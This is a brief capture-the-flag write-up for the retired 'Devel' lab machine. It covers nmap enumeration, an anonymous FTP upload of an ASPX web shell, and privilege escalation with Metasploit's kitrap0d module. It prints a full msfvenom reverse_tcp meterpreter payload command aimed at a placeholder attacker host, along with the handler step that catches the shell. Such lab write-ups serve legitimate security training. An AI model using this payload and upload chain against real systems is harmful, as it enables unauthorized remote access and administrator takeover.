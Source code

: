 # Devel 10.10.10.5 WriteUp
## Contents
- [Tools](#tools)
- [Enumeration](#enumeration)
- [Exploitation](#exploitation)
- [Priviledge Escalation](#priviledge-escalation)

Retired Easy Machine by ch4p

## Tools
1. Nmap
2. ftp
3. Metasploit

## Enumeration

1. Nmap shows port 21 and 80 is open.

## Exploitation

1. FTP anynymous login was enabled. So, exploited it with `put shell.aspx` to upload msfvenom shell.
msfvenom command used,
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LAB IP> LPORT=<PORT> -f aspx > shell.aspx`
2. Then used `/multi/handler` to get reverse tcp connection from the shell on metasploit as user `IIS APPPOOL\Web`.

## Priviledge Escalation

1. Used `local_exploit_suggester` module for this.
2. After trying some suggested exploit `exploit/windows/local/ms10_015_kitrap0d` worked. The flags can now be obtained from
`c:\Users\babis\Desktop\user.txt.txt​` and `c​:\Users\Administrator\Desktop\root.txt.txt`

Author: Zishan Ahamed Thandar

